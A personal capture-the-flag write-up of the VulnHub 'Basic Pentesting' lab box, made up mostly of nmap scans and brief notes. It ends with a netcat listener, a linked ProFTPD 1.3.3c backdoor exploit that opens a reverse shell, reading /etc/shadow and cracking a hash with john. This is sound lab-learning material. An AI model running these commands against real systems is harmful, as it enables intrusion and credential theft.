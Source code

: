 ```yaml
---
layout: post
title:  "VulnHub: Basic Pentesting Writeup"
categories: ctf-writeup
tags: ctf writeup vulnhub
---
```


I prefer to use s1ren's template when working through a box. It gives me a nice outline and allows me to stay organized. Below is what my template lookes like after filled out. This was one of the first vulnhub boxes I completed so my notes are really bad. I will be redoing them soon and posting them here to demonstrate the differences. At the very end I've also provided a list of resources and tools used on this box.

=========================================================================


192.168.158.128
Ubuntu 16.04.3 LTS
hostname: vtcsec

Guest account
no password
no sudo

guest-kpippq@vtcsec
marlinspike

─$ sudo nmap 192.168.158.128 -sT
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 08:58 EDT
Nmap scan report for 192.168.158.128
Host is up (0.0068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http


21
ProFTPD 1.3.3c Server
Anonymous login ok, send your complete email address as your password

80
Apache/2.4.18 (Ubuntu) Server at 192.168.158.128 Port 80

dirbuster \usr\share\wordlists\

22
ssh guest@ *need password*

======= restarted machine 

└─$ sudo nmap 192.168.158.128 -sT -O -sV
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 09:40 EDT
Nmap scan report for 192.168.158.128
Host is up (0.00078s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

=== shutdown machine ===
dirbuster taking too long
hydra taking too long against marlinspike
need vulners


---------------------

sudo nmap 192.168.158.131-sCV -T4 -p-

└─$ sudo nmap 192.168.158.131 -sCV -T4 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 20:45 EDT
Nmap scan report for 192.168.158.131
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:43:6B:30 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.89 seconds



https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/blob/main/proFTPD_1.3.3c_exploit.py

started nc listener  (nc -lvnp 1234)
ran proFTPD to get shell (python3 proFTPD_1.3.3c_exploit.py 192.168.158.130 192.168.158.131)
	less /etc/shadow to see users and hashed passwds
used john to crack password hash (john marlinspike_hash.txt)

=========================================================================

Resources used:
s1ren's template
s1ren's linux priv esc cheatsheet

Tools used:
Nmap
dirbuster
searchsploit
ssh
netcat
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/
